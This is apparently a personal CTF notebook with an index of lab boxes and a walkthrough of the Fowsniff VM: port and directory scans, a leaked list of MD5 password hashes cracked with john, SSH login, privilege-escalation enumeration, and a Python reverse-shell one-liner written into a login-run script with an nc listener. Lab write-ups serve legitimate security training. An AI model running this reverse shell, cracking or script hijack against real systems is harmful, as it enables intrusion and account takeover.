










Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
Fowsniff
Nmap scan report for 192.168.56.119Host is up (0.00016s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
110/tcp open pop3
143/tcp open imap
MAC Address: 08:00:27:DB:99:AE (Oracle VirtualBox virtual NIC)
Nmap done: 255 IP addresses (3 hosts up) scanned in 3.63 seconds
root@kali:~#
root@kali:~# nmap -A -p- 192.168.56.119
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-12 12:00 EST
Nmap scan report for 192.168.56.119
Host is up (0.00036s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
| 256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_ 256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open pop3 Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING SASL(PLAIN) UIDL RESP-CODES USER TOP AUTH-RESP-CODE
143/tcp open imap Dovecot imapd
|_imap-capabilities: IMAP4rev1 ENABLE LITERAL+ IDLE Pre-login OK ID have post-login listed AUTH=PLAINA0001 capabilities LOGIN-REFERRALS more SASL-IR
MAC Address: 08:00:27:DB:99:AE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.37 ms 192.168.56.119
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.04 seconds
root@kali:~#
root@kali:~# dirb http://192.168.56.119/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Tue Nov 12 12:02:29 2019
URL_BASE: http://192.168.56.119/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.119/ ----
==> DIRECTORY: http://192.168.56.119/assets/
==> DIRECTORY: http://192.168.56.119/images/
+ http://192.168.56.119/index.html (CODE:200|SIZE:2629)
+ http://192.168.56.119/robots.txt (CODE:200|SIZE:26)
+ http://192.168.56.119/server-status (CODE:403|SIZE:302)
---- Entering directory: http://192.168.56.119/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://192.168.56.119/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
-----------------
END_TIME: Tue Nov 12 12:02:31 2019
DOWNLOADED: 4612 - FOUND: 3
root@kali:~#
root@kali:~# telnet 192.168.56.119 143
Trying 192.168.56.119...
Connected to 192.168.56.119.
Escape character is ^].
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Welcome to the Fowsniff Corporate Mail Server!

It says employee information has been made publicly available:
checked pastebin:


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
Trying to crack them:
root@kali:~# john --format=Raw-MD5 --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --rules fowsniff_emails
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press q or Ctrl-C to abort, almost any other key for status
scoobydoo2 (seina@fowsniff)
1g 0:00:00:00 DONE (2019-11-12 12:30) 3.030g/s 1080Kp/s 1080Kc/s 8844KC/s Lilbitching..Bambining
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
root@kali:~#
Connect to telenet with the credentials




IN the email it says that baksteen is sick so he wont have changed his ssh password:

baksteen@fowsniff:~$ find / -perm /4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/procmail
/usr/bin/sudo
/usr/bin/chsh
baksteen@fowsniff:~$
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
find / -group users -type f 2>/dev/null
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
- Add this to the file
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
-> cube.sh file is run when the user logs into ssh:
→ so log out and then back in

Run: nc -lvp 1234


FIN